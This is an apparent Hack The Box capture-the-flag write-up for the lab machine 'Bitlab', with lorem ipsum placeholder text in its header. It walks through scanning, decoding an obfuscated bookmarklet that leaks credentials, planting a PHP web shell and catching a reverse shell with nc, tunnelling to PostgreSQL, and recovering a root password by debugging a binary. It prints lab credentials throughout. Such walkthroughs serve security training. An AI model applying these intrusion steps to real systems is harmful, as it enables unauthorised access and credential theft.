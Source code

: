 ```yaml
---
title: Bitlab - Hack The Box
author: "0xPThree"
description: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2019-11-27
image: images/bitlab_logo.png
categories: [hackthebox, ]
format: html
editor: visual
jupyter: python3
toc: true
---
```


![](images/bitlab_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. root@kali:/opt/htb/machines/bitlab# nmapAutomatorDirb.sh 10.10.10.114 All
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   2048 a2:3b:b0:dd:28:91:bf:e8:f9:30:82:31:23:2f:92:18 (RSA)
    |   256 e6:3b:fb:b3:7f:9a:35:a8:bd:d0:27:7b:25:d4:ed:dc (ECDSA)
    |_  256 c9:54:3d:91:01:78:03:ab:16:14:6b:cc:f0:b7:3a:55 (ED25519)
    80/tcp open  http    nginx
    | http-robots.txt: 55 disallowed entries (15 shown)
    | / /autocomplete/users /search /api /admin /profile
    | /dashboard /projects/new /groups/new /groups/*/edit /users /help
    |_/s/ /snippets/new /snippets/*/edit
    | http-title: Sign in \xC2\xB7 GitLab
    |_Requested resource was http://bitlab.htb/users/sign_in
    |_http-trane-info: Problem with XML parsing of /evox/about
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    DIRB
    + http://10.10.10.114:80/deploy.html (CODE:200|SIZE:2571)
    + http://10.10.10.114:80/explore.html (CODE:200|SIZE:13724)
    + http://10.10.10.114:80/public.html (CODE:200|SIZE:13810)
    + http://10.10.10.114:80/search.html (CODE:200|SIZE:13376)
    + http://10.10.10.114:80/search.php (CODE:200|SIZE:13374)

    NIKTO
    + /.well-known/openid-configuration: OpenID Provider Configuration Information.
    + OSVDB-3092: /search.vts: This might be interesting...
    + OSVDB-3092: /public/: This might be interesting...


2. On the page http://10.10.10.114/help/bookmarks.html we find a bookmark named "Gitlab Login" linking to a weird url.
    javascript:(function(){ var _0x4b18=["\x76\x61\x6C\x75\x65","\x75\x73\x65\x72\x5F\x6C\x6F\x67\x69\x6E","\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x42\x79\x49\x64","\x63\x6C\x61\x76\x65","\x75\x73\x65\x72\x5F\x70\x61\x73\x73\x77\x6F\x72\x64","\x31\x31\x64\x65\x73\x30\x30\x38\x31\x78"];document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]]= _0x4b18[3];document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]]= _0x4b18[5]; })()

    By looking at it we can see that it's encoded hex, and something else. Decode it using https://malwaredecoder.com/
      javascript:(function(){
      document["getElementById"]("user_login")["value"]= "clave";
      document["getElementById"]("user_password")["value"]= "11des0081x"";

    Our first set of creds - clave:11des0081x

3. The creds don't work for SSH, but they do work on the login-page on port 80. Looking around on the page we find a few things
    .. http://10.10.10.114/root/profile: "TODO: Connect with postgresql"
    .. http://10.10.10.114/snippets/1:
        <?php
        $db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");
        $result = pg_query($db_connection, "SELECT * FROM profiles");

    psql is not reachable from our remote machine, maybe this is our way towards user / root from init.

4. We are able to upload files in http://10.10.10.114/root/profile/tree/master, upload a shell (webshell or reverse php)
   Using dirb we can locate the url for our shell. We know that index.php, README.md and developer.jpg are in the same folder.

   DIRB
    + http://bitlab.htb/profile/index.php (CODE:200|SIZE:4184)

   We can now reach our shell(s) by either ..
    http://bitlab.htb/profile/webshell.php
    http://bitlab.htb/profile/rev.php

    root@kali:/opt/htb/machines/bitlab# nc -lvnp 4488
      listening on [any] 4488 ...
      connect to [10.10.14.10] from (UNKNOWN) [10.10.10.114] 56174
      Linux bitlab 4.15.0-29-generic #31-Ubuntu SMP Tue Jul 17 15:39:52 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
       20:57:55 up 5 min,  0 users,  load average: 3.04, 1.75, 0.79
      USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
      uid=33(www-data) gid=33(www-data) groups=33(www-data)
      /bin/sh: 0: can't access tty; job control turned off
    $

    Upgrade the shell for ease of management.
      www-data@bitlab:/$

5. Uploading lse.sh and running it shows that postgresql is up and running on it's default port - 5432.
    ================================================================( network )=====
    [*] net000 Services listening only on localhost............................ yes!
    ---
    tcp    LISTEN   0        128             127.0.0.1:3022          0.0.0.0:*
    tcp    LISTEN   0        128             127.0.0.1:5432          0.0.0.0:*

   And OpenSSH 7.2p2 on port 3022.
    www-data@bitlab:/dev/shm$ curl 127.0.0.1:3022
    SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.6

6. By default, postgresql is running in Kali Linux. Stop the service, setup a SSH-tunnel and connect using rsql
    root@kali:/opt/htb/machines/bitlab# service postgresql stop

    www-data@bitlab:/srv/apps/profile/.git$ ssh -R 5432:127.0.0.1:5432 p3@10.10.14.10

    root@kali:/opt/htb/machines/bitlab# psql -h 127.0.0.1 -U profiles -d profiles
      Password for user profiles: (profiles)
      psql (12.1 (Debian 12.1-1), server 10.4 (Ubuntu 10.4-2.pgdg18.04+1))
      Type "help" for help.
    profiles=>
    profiles=> TABLE profiles;
     id | username |        password
    ----+----------+------------------------
      1 | clave    | c3NoLXN0cjBuZy1wQHNz==
    (1 row)

    Decoding the password gives us "ssh-str0ng-p@ss" however we can't login with that password. Trying the
    encrypted password works tho.

7. Grab user.txt
    root@p3:/opt/htb/machines/bitlab# ssh clave@bitlab.htb
    clave@bitlab.htb's password: (c3NoLXN0cjBuZy1wQHNz==)
      Last login: Thu Nov 28 10:42:18 2019 from 10.10.14.10
    clave@bitlab:~$ cat user.txt
      1e3f****************************


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Enumerating the box as user Clave we find RemoteConnection.exe in the home folder. Reading the forums they suggest to study
   the challenge reverse EasyPass. Move the .exe to your Windows box, install Immunity Debugger and open the file.

2. "Search for" > "All referenced test strings" And I found the reference "clave".
    I set a breakpoint on the "MOV" function above the reference clave and run the program again.
    I get following output in my Registers Window:

      EAX 02C63AE0 UNICODE "-ssh root@gitlab.htb -pw "Qf7]8YSV.wDNF*[7d?j&eD4^""
      ECX 00000000
      EDX 00000033
      EBX 02C63A00 ASCII "-ssh root@gitlab.htb -pw "Qf7]8YSV.wDNF*[7d?j&eD4^""
      ESP 00CFFA40
      EBP 00CFFAC0
      ESI 02C63A33
      EDI 00CF0022
      EIP 00DC163C RemoteCo.00DC163C
      C 0  ES 002B 32bit 0(FFFFFFFF)
      P 1  CS 0023 32bit 0(FFFFFFFF)
      A 0  SS 002B 32bit 0(FFFFFFFF)
      Z 1  DS 002B 32bit 0(FFFFFFFF)
      S 0  FS 0053 32bit A62000(FFF)
      T 0  GS 002B 32bit 0(FFFFFFFF)
      D 0
      O 0  LastErr ERROR_INSUFFICIENT_BUFFER (0000007A)
      EFL 00000246 (NO,NB,E,BE,NS,PE,GE,LE)
      ST0 empty g
      ST1 empty g
      ST2 empty g
      ST3 empty g
      ST4 empty g
      ST5 empty g
      ST6 empty g
      ST7 empty g
                     3 2 1 0      E S P U O Z D I
      FST 0000  Cond 0 0 0 0  Err 0 0 0 0 0 0 0 0  (GT)
      FCW 027F  Prec NEAR,53  Mask    1 1 1 1 1 1

3. Go back to the Linux-box and ssh to get root.txt
    root@p3:~# ssh root@bitlab.htb
    root@bitlab.htb's password: (Qf7]8YSV.wDNF*[7d?j&eD4^)
    Last login: Fri Sep 13 14:11:14 2019
    root@bitlab:~# cat root.txt
      8d4c****************************


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

PostgreSQL:
  https://gist.github.com/Kartones/dd3ff5ec5ea238d4c546
  https://www.postgresql.org/docs/8.3/app-psql.html

EasyPass:
  https://www.youtube.com/watch?v=zDjut5L_NnY
